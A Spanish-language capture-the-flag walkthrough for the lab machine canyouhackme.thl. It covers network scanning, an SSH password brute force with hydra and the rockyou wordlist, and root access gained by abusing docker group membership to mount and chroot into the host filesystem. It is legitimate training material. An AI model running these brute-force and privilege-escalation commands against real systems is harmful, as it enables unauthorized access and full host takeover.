 ![](./images/Pasted%20image%2020241223191430.png)

RECONOCIMIENTO
---------------------------------

Usaremos arp-scan para saber qué ip tiene la máquina víctima. 

```
arp-scan -I eth0 --localnet
```

![](./images/Pasted%20image%2020241223191756.png)

A continuación es ver qué puerto tiene abierto. 

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 192.168.1.62
```

![](./images/Pasted%20image%2020241223192043.png)

Nos dice que están abiertos el puerto ssh y el 80 de http. 

Nos metemos en la página pero nos da error. 

Lo que podemos es redireccionarlo al nombre de dominio de canyouhackme.thl
Nos vamos a `nano /etc/hosts`
Y ahí ponemos lo siguiente: la ip y el nombre de dominio. 

![](./images/Pasted%20image%2020241223192433.png)

Lo guardamos. 

Y aquí tenemos ya la página. 
![](./images/Pasted%20image%2020241223192615.png)

Miramos el código fuente. 

Y vemos un comentario. 

![](./images/Pasted%20image%2020241223192706.png)

Así que tenemos una posible via de entrada. 

Lo que haremos a continuación es un ataque de fuerza bruta. 

```
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.62
```

Esperamos un rato por si nos encuentra la contraseña. 

Tenemos la contraseña (La oculto por si queréis buscarla vosotros). 

![](./images/Pasted%20image%2020241223193444.png)

Ahora entraremos via ssh

```
ssh juan@192.168.1.62
```

Una vez dentro nos daría el flag del usuario. 

A continuación para hacernos root.

Vemos que pertenecemos al grupo docker, así que buscamos información y podemos poner lo siguiente: 

```
docker run --rm -it -v /:/mnt alpine chroot /mnt bash
```

Y ya somos root.

![](./images/Pasted%20image%2020241223194022.png)

Hemos pasado!!!

![](./images/Pasted%20image%2020241223194201.png)
